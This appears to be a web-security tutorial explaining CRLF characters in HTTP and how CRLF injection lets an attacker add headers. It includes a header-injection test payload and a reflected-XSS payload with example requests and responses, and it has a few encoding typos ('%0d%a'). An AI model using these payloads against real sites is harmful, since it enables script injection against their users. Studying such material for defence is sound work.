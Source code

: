 
**What is CRLF**<br>
At the end of every line in HTTP request & response, there are characters, known as CRLF. These are needed, because they define where a newline starts. They are both in the HEADERS section & body seciton. CRLF is `\r\n` in ASCII, and `%0d%a` in URL encoding.

Example:<br>
![image](https://github.com/x1trap/websec-answers/assets/81029708/bc5aaea4-076d-4c98-ab8a-95821ed8410a)

Notice that every header ends with `\r\n` (CRLF). When the HEADERS part is over, CRLF is used twice. Then there's body section and again, after the body ends, there's CRLF, twice. 

*Note: Two CRLF's at the end of the request are always needed, otherwise your request will fail.*

## **CRLF injection**
If we can inject CRLF characters, we can make our own headers and body, which can lead to all sort of *nasty discoveries* (borrowed this from agadmator). 

Let's suppose we have an application that is vulnerable to CRLF injection, in order to determine that, we construct a simple payload : `freeoscp.net/%0d%0aCRLF:Confirmed`<br>
The response will look as follows :

```HTTP
HTTP/1.1 200 OK
Server: crlfwaf
blah:blah
CRLF:Confirmed
```
As we can see, we've successfully injected a new header, but how to exploit it..? Let's have a look.


### 1) RXSS
One of the most common way to exploit CRLF injection. The idea is to make a header with `text/html` CT header & then inject body with XSS payload. First, we'll construct a payload (URL encoded) :
`%0d%0aContent-Type:text/html%0d%0a%0d%a<script>alert(1337)</script>`

`%0d%aContent-Type:%20text/html` - Newlines along with the Header that says "yep, I will treat the response as html".<br>
`%0d%0a%0d%0aPAYLOAD` - Two CRLF's, because we are creating a body along with the XSS payload.

HTTP request will look like this :
```HTTP
GET /%0d%0aContent-Type:text/html%0d%0a%0d%a<script>alert(1337)</script> HTTP/1.1
Host: freeoscp.net
User-Agent: blah blah
...
```
While the response: 

```http
HTTP/1.1 200 OK
Server: crlfwaf
blah: blah
Content-Type: text/html

<script>alert(1337)</script>
```
Since the `Content-Type` is set to `text/html`, it will happily execute the code and alert will be triggered.
